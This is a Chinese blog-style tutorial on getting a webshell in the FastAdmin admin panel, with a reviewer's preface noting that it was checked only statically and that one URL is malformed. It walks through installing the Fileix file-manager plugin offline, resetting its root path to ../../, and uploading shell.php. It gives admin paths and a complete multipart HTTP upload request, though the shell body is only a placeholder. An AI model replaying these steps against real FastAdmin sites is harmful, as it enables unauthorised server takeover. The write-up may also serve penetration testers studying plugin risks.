










## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：FastAdmin/Fileix versions absent; plugin install/config/admin rights and executable path required

代码与实验材料：Offline plugin installation, root reconfiguration, multipart upload; file content literal code not executable proof

来源证据范围：Official FastAdmin/Fileix store links; article origin absent

- **适用与权限边界（1）**：Authorized admin plugin installation/file editing not automatically a FastAdmin vulnerability; define violated boundary。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **代码与转录边界（2）**：Combined /admin/fileix?ref=addtabs/admin/fileix/lst URL malformed; no version/fix。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# FastAdmin 第三方插件后台getshell

**0x01 前言**


FastAdmin是基于ThinkPHP5和Bootstrap的后台框架，可以利用三方插件GetShell


**0x02 本地测试**


FastAdmin官方源码下载地址：

```
https://www.fastadmin.net/download.html
```


开启phpstudy本地搭建




安装成功，新版源码的后台地址是随机生成的





后台默认会有插件管理功能，但是绝大部分用户会把这个功能阉割掉


点进去看到有一堆付费和免费的插件





翻到了目前已有的三个官方发布的在线文件管理器插件，一个是官方付费版，一个是三方付费版


但是由于舍不得花十块钱买插件，所有只能用三方免费版插件，直接点击安装会需要登录账号，登录信息会记录到日志，不便于操作，所以去官方下载离线安装包


Fileix文件管理器离线安装包官方下载地址：

- 

```
https://www.fastadmin.net/store/fileix.html
```


点击离线安装，选择上传你下载的ZIP离线安装包


插件安装完成会自动启用，默认路径配置是这样的





然后打开是这样的





可以修改为 ../../，那么再打开就是这样的





然后浅显易懂，直接右键上传php文件就能getshell





上面是本地测试环境，真实环境会出现这样一个问题，就是点击文件管理功能不会显示任何内容


后来了解一下是因为没有配置前台页面，不太好修改，所以利用下面的方法


**0x03 通用方法**


1.插件管理地址：

- 

```
/admin/addon?ref=addtabs
```


进入后台默认不显示插件管理功能，访问插件管理地址，上传离线安装包


2.文件管理地址/读取所有文件地址：

- 
- 

```
/admin/fileix?ref=addtabs/admin/fileix/lst
```


真实环境中如果出现不显示功能的情况，必要时可以读取所有文件地址





3.上传poc：

```
POST /admin/fileix/data?target=%2F HTTP/1.1
Host: localhost
Content-Length: 1050
Origin: http://localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrZmyeAB3SciJDWST
Accept: */*
Referer: http://localhost
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=xxxxxxxx
Connection: close
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="upload"; filename="shell.php"
Content-Type: application/octet-stream
code
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="action"
upload
------WebKitFormBoundaryrZmyeAB3SciJDWST
Content-Disposition: form-data; name="target"
/public/
------WebKitFormBoundaryrZmyeAB3SciJDWST--
```


修改host地址post过去





利用poc成功上传shell


